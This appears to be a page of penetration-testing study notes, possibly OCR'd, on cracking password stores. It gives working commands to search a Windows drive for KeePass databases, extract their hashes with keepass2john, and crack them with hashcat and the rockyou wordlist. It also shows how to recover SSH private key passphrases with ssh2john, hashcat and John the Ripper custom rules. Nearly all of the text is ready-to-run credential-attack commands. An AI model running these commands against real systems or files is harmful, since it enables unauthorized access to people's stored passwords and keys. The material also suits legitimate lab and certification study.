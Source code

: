 Path for hashcat rules:
```
/usr/share/hashcat/rules/
```

### Password Manager

Find kdbx databases:
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Extract the hash from the database:
```
keepass2john Database.kdbx > keepass.hash
```
NOTE: Remember to alter the hash file and delete everything before $keepass$...

Crack it with hashcat
```
hashcat -m 13400 keepass.hash
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

Use this password with the GUI KeePass and extract the passwords from it.

### SSH Private Key Passphrase

Change permissions for the ssh private key (400 or 600):
```
chmod 400 id_rsa
```

Extract the hash with ssh2john:
```
ssh2john id_rsa > ssh.hash
```

Crack it with hashcat:
```
hashcat -m 22921 ssh.hash /path/to/wordlist -r ssh.rule -- force
```

JtR new rule
```
cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Add this rule to file john.conf
```
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >>
/etc/john/john.conf'
```

With john:
```
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
